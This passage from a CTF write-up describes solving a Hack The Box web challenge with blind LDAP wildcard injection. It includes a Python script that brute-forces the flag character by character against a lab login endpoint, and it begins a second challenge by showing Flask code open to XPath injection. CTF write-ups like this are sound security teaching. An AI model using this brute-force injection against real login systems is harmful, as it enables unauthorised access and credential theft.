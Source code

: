 But I didnt get any type of injection in this search functionality. Took me a while to go back to the login screen and try something else. I knew I needed the password. The flag was probably the password. 

I found that we can use regex in LDAP injection using the "\*" char again like: "HTB{\*". Now all I need was a script to brute force with different chars and try them at login. If I get logged in I add that char to the flag. Here is what I wrote:

```
import requests

chars=[]

for x in range(33,126):
	chars.append(chr(x))
#print(chars)
chars.remove("(")
chars.remove(")")
chars.remove("*")
chars.remove("\\")

username="reese"
flag='HTB{'
length="2586"
while("}"!=flag[-1]):
	for x in chars:
		password=flag+x+"*"
		data={"username":username,"password":password}
		r=requests.post("http://46.101.53.249:31851/login",data=data)
		#print(x,r.headers.get('Content-Length'))
		if (r.headers.get('Content-Length')==length):
			flag+=x
			print(flag)
print(flag)
```

I basically created a list of alphanumericals and removed the reserved chars from the list. After that, i just had to run the script and get the flag.

## Challenge 6: E-Tree

This challenge comes from the Cyber apocalypse CTF. Another web-scripting challenge. I dont have the screenshots but I can explain the challenge. So What this challenge had was a search functionality.

We can search a xml file using that query. The xml file had the flag hidden inside it(got the clue from downloadable part of challenge). The server was a flask server and had debug mode ON. So basically triggering any error gave me the full code I need tot develop the exploit. 

```
@app.route("/api/search", methods=["POST"])

def search():
    name = request.json.get("search", "")
    query = "/military/district/staff[name='{}']".format(name)
    if tree.xpath(query):
        return {"success": 1, "message": "This millitary staff member exists."}
    return {"failure": 1, "message": "This millitary staff member doesn't exist."}
app.run("0.0.0.0", port=1337, debug=True)
```
